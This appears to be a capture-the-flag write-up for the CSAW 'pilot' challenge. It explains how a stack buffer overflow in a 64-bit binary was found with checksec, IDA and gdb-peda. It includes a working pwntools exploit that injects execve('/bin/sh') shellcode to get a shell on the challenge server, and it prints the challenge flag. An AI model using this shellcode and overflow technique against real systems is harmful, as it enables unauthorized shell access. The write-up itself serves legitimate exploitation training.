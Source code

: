 # pilot Writeup

![pilot](https://user-images.githubusercontent.com/41026969/50910626-2e3dd000-13fc-11e9-8ec9-58243f541a8e.png)

Ok so the description doesn't really give us much of anything, just an executable to work with and a ```nc``` address.
##### note: this ```nc``` address won't work for you since it's unique to each individual and requires vpn, check out links in my CTF page and look at the 365 CSAW link.

First, I did a few checks:

![pilot](https://user-images.githubusercontent.com/41026969/50911285-86290680-13fd-11e9-97aa-da7c1e90efe5.png)

To quickly explain what I did for every command I did:
```chmod +x pilot``` gives pilot permission to execute (to run). If we didn't, if we tried to run it it'd say "Permission Denied." ```file pilot``` checks what kind of file pilot is. We learn that this is a 64 bit executable which means 8 byte addresses (which may be handy to us further down). ```checksec pilot``` checks the properties of an executable. We see that the program does not utilize a [stack canary](https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries) (which essential checks to see if the stack has been changed for buffer overflow possibility). We then just test the program by passing a bunch of letters into it.

### Reverse engineering time
So I opened the file in IDApro 64 bit. In IDA, you can generate pseudocode by clicking ```view -> open subviews -> generate pseudocode```. Looking at the ```main``` function, I see this interesting piece of code:

![pilot](https://user-images.githubusercontent.com/41026969/51258592-56877a80-1978-11e9-844a-75a29572e2b8.png)

So from the code above, we can see a few things. 
1) The read() instruction is called
2) The function will take in 64 bytes (or characters) into standard input (in IDA, you can right click and convert the hex to decimal)
3) if what we inputted is less than or equal to 4 bytes, we see that ```[*]There are no commands....``` and ```[*]Mission Failed....``` will get printed out - that's not what I want...

I looked at the disassembly x86 instructions next, specifically looked at the main function again. I saw this:

![pilot](https://user-images.githubusercontent.com/41026969/51260034-60f74380-197b-11e9-8d90-c6202fc5fe3e.png)

This is the part where the [function prologue](https://en.wikipedia.org/wiki/Function_prologue) takes place. We see that the function only allocates 32 bytes of space (I converted the hex value IDA says into decimal) into the stack, this is strange because even though the function prologue creates the stack with 32 bytes of memory, the buffer that we're inputting into is 64 bytes... This program is exploitable via buffer overflow.

### Exploiting
To know better about the program and the stack, I used gdb with [peda](https://github.com/longld/peda) (python exploit development assistance). peda is an excellent tool as it allows us to observe the stack and registers after the program exits and it includes some fancy color text. So first I run the program in gdb peda by typing ```gdb pilot```. Then I type ```r``` to run the program. 

So we need to find how many bytes we need to feed into the input before the return address is popped. To do this, when the program is run, I first input ```AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP```. We input this because when we examine the stack registers later, we will be able to see which letters have overflowed through the base pointer into the stack pointer. Here's a picture of it below:

![pilot](https://user-images.githubusercontent.com/41026969/51324731-7337b700-1a39-11e9-8471-eed6010d64cb.png)

So if you didn't read the [function prologue](https://en.wikipedia.org/wiki/Function_prologue) page in the beginning of this writeup here's a quick summary:

1) the return address is pushed onto the stack (so the function knows where to return after the function called is done)
2) the base pointer is pushed onto the stack
3) the stack pointer is made equal to the base pointer
4) the stack pointer is then subtracted by a set amount (depends on some stuff). The space that's made between the stack pointer and the base pointer is used to memory. This is the space in memory that we will overwrite and exploit

In the picture above the ```RBP``` stands for base pointer, and wee see it's: ```RBP: 0x4a4a4a4a49494949 ('IIIIJJJJ')```. Hence, it took from A (four times) to J (four times) to overwrite into the return address (total of 40 characters).

So we can write some shellcode that will execute to /bin/sh to get us a shell running as the host (pilot). Doing some researching we find shell code for 64 bit /bin/sh exploit [here](http://shell-storm.org/shellcode/files/shellcode-811.php).

Here is the code I came up with (also attached above):
```python
# Exploit for the pilot CSAW challenge

from pwn import *

session = remote("10.67.0.1", 30983)

session.recvuntil("[*]Location:")

address = session.recvuntil("\n")[:-1]

shellcode = "\x31\xc0\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\xb0\x3b\x48\x89\xe7\x31\xf6\x31\xd2\x0f\x05"

payload = shellcode + "A" * (40-len(shellcode)) + p64(int(address, 16)) 

print("Address: " + str(address))
print("total payload: " + str(payload))

session.sendline(payload)

session.interactive()
```
Walking through the code:

- I basically open a session to the address
- I start reading the adddress that's given from the program and store it into ```address``` then remove the new line character at the end
- the ```shellcode``` variable is from the link from googling
- to put together the payload, it's first the shellcode, then number of bytes times (40 minus length of shellcode) to make sure we don't over write too much. Then the last part is simply the address that was given from the program.
- we then just send the payload and set up interactive().

##### note: that nc address won't work (it's based on your CSAW365 account) and you need a vpn.

Running the code will come up with the flag:
```flag{1nput_c00rd1nat3s_Strap_y0urse1v3s_1n_b0ys}```

### in progress
